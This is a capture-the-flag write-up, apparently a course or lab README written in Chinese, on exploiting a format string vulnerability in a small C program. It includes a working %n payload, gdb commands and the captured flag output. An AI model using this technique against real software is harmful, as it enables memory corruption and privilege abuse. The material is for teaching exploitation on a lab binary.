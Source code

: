 # Format
[format.c](format.c)有 **string format vulnerability** ，利用它把一個global integer改成1337。
 * 察看[wiki page](https://en.wikipedia.org/wiki/Printf_format_string)，format function怎麼處理format string和parameter：
  1. format function可以傳入任意長度的parameter
  2. 做什麼事由format string控制
  3. parameter被直接(by value)或間接(by reference address)的push到stack上，等待遇到 `%`字元時被pop出來

那麼，如果我寫一個沒有給參數卻允許傳入format string控制format function的程式碼：`printf(argv[1])`，會怎樣呢？
 * 如果argv[1] =
  * `%d`, `%u`, `%x`, 會把stack最上方的item裡的值pop出來，分別以decimal, unsigned decimal,或hexadecimal表示出來
  * `%s`：正常情況在被處理的時候，stack指到的地方存有字串的reference位址，把位址pop出來，用這位址去找對應的數值並當作字串印出來。但如果不給變數，會直接把stack pointer目前指到的當位址去找資料印出來
  * `%n`：正常情況：`printf("hello%n", &var);` 把length("hello") = 5寫入var裡。但是如果後面不給變數，會直接把目前有多少byte**直接寫入stack pointer目前指到的位址**！！
 * stack的長相：`printf("some string... %d %d %x", a, b, &c);`

format string 只能寫到stack上，那要怎麼把secret改成1337呢？
 1. code中有一行：`int *ptr = &secret;`
  * ptr已經把secret的位址存到stack裡了
 2. 使用gdb找出secret位置
```bash
(gdb) print &secret
$1 = (<data variable, no debug info> *) 0x804a030 <secret>
```
 3. 然後用`./format %08x.%08x.%08x.%08x.%08x.%08x....`找出含有stack addr的是第幾個，找到是第7個。
 4. 把stack倒數第七個改成1337：呼叫`%n`把目前這個字串在`%n`前的byte數目push進%esp指到的地方
  * 湊1337byte：`%[?]u.%08x.%08x.%08x.%08x.%08x.%n`
   * [?] = 1337 - (6個`.`(1 byte)+5個`%08x`(8 byte)) = 1291
 5. 取得flag
```bash
(gdb) run %1291u.%08x.%08x.%08x.%08x.%08x.%n
Starting program: /home/fomat/format %1291u.%08x.%08x.%08x.%08x.%08x.%n
$ ls
flag.txt    format    format.c    Makefile
$ cat flag.txt
cat: flag.txt:  Permission denied
$ ./format %1291u.%08x.%08x.%08x.%08x.%08x.%n
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```
## 參考資料
 * [format-string-attack教學](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)

